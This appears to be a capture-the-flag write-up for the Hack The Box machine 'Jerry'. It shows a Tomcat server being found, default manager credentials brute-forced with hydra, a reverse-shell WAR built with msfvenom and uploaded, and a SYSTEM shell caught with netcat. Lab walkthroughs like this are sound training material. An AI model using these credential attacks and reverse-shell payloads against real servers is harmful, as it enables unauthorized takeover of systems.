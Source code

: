 ```yaml
---
title: HTB:Jerry
date: 2025-01-20 04:01 +0000
categories: [Write Ups, Boxes]
tags: [red team pathway, difficulty:easy]     # TAG names should always be lowercase
---
```


# Overview: 
Jerry is a very easy box that involves finding an Apache Tomcat server and exploiting **Tomcat Web Application Manager** with weak credentials.
We then upload a malicous `.WAR` file to gain a system reverse shell and access to `user` and `root` flags. 
# **Reconnaissance**:
### Nmap:
We will get started as always with an `nmap` scan. 
```bash
sudo nmap -sC -sV -oA ~/htb/boxes/Jerry/nmap 10.10.10.95
...SNIP...
Nmap scan report for 10.10.10.95
Host is up (0.095s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

...SNIP...

```
Running `nmap` we see just one port open on `8080`. This port is running an `Apache Tomcat` webserver version:`7.0.88`.

## Web Enumeration:

Navigating over to `10.10.10.95:8080` we get what appears to be a default webpage.

![image.png](assets/img/Jerry/image.png)
_Default install of tomcat_

Poking around on the app, we see that `Server Status`, `Manager App`, `Host Manager` require a `username:password`

![image.png](assets/img/Jerry/image_1.png)

Testing the default credentials of `admin:admin` we gain access to the `Server Status` page. Looking around, there doesn’t seem to be any vector to exploit. 

![image.png](assets/img/Jerry/image_2.png)

Googling around for other default credentials doesn’t seem to net much, but if we observe the `403 - Access Denied` page when attempting to access `Manager App`, we get the following:

![image.png](assets/img/Jerry/image_4.png)
_Suggestion of the `manager` role with the username : password pair of `tomcat:s3cret`_

Trying these credentials, we get access to the *Tomcat Web Application Manager page.* 

![image.png](assets/img/Jerry/image_5.png)

> In most cases (_we hope_) credentials will not be so easily accessible. To circumvent this, we may need to brute-force the password. 
{: .prompt-tip }

### Bruteforcing:

#### Burpsuite:
We notice capturing the request to `http://10.10.10.95:8080/manager/html` that we have the `Authorization` header, which is a `Base64 encoded` value of the `username:password` that is entered. In this case, we don’t get access with value of `admin:admin`.

![image.png](assets/img/Jerry/image_3.png)

Using this knowledge of the request, we are now informed as to where to direct out brute-forcing attempt. 

#### Hydra:

Using hydra, we find the password `tomcat:s3cret`.

```bash
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
#-C FILE   colon separated "login:pass" format

...SNIP...
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret

```


# **Exploitation:**

## Web Exploitation:

In the **Tomcat Web Application Manager,** we see that we can upload and WAR files.

![image.png](assets/img/Jerry/image_6.png)

> A WAR (Web Application Archive) file allows developers to package all the components of a Java-based web application, including code, configuration, and static resources, for deployment on a web server or application server.
{: .prompt-info }


### Creating malicious WAR file:
We use will `msfvenom` to craft an exploit:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=8888 -f war -o upload.war
```
> #### Switches:
- `p java/jsp_shell_reverse_tcp`: Specifies the payload (a reverse shell using Java Server Pages).
- `LHOST=`: Your machine's IP address (for the reverse shell to connect back).
- `LPORT=`: The port on your machine to receive the reverse shell.
- `f war`: Specifies the output format as a WAR file.
- `upload.war`: Output file name.
{: .prompt-info }

### Getting shell:
Navigating to `http://10.10.10.95:8080/upload/`
![image.png](assets/img/Jerry/image_7.png)
_Upload displayed on GUI_


```shell
nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
### Flags:
We have shell as system, so `user` and `root` flags are easy to get:
```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,450,302,464 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,450,171,392 bytes free

C:\Users\Administrator\Desktop\flags>type 2*
type 2*
2 for the price of 1.txt

user.txt
7004dbce...SNIP...

root.txt
04a8b36e...SNIP...

```
